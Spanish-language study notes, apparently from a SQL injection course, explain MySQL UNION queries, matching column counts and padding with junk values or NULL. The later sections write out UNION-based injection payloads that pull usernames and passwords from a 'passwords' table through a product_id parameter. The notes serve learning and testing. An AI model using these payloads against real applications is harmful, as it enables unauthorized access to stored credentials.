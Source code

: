 #### Sentencia UNION

Esta sentencia se usa para combinar resultados de diferentes sentencias SELECT. 
Con esta sentencia podemos extraer datos de las diferentes bases de datos, tablas, etc...

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)
```

##### Columnas iguales

Las sentencias UNION solo se pueden utilizar con las sentencias SELECT en tablas con el mismo número de columnas. 
Si intentamos hacer un union de dos tablas con diferentes columnas esto nos dará error.

```shell-session
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns
```

De esta manera solo podemos extraer datos de tablas con el mismo número de columnas o extaer datos de x columnas tantas como la tabla base tenga, por ejemplo;

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

Asumiendo que la tabla products tiene 2 columnas, solo podremos extraer 2 columnas de la tabla passwords.

##### Columnas desiguales.

Normalmente las tablas no suelen tener el mismo número de columnas por lo que para poder extraer datos completos usando UNION vamos a tener que introducir datos vacíos o "junk data" para que las columnas coincidan entre tablas.


> [!NOTE] 
> Al rellenar otras columnas con datos basura, debemos asegurarnos de que el tipo de datos coincida con el tipo de datos de las columnas, de lo contrario la consulta devolverá un error. Para simplificar, utilizaremos números como datos basura, lo que también resultará útil para rastrear las posiciones de nuestros payloads.
> Para inyecciones más avanzadas lo mejor es usar 'NULL' ya que este valor es válido para todos los tipos de datos.


```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```
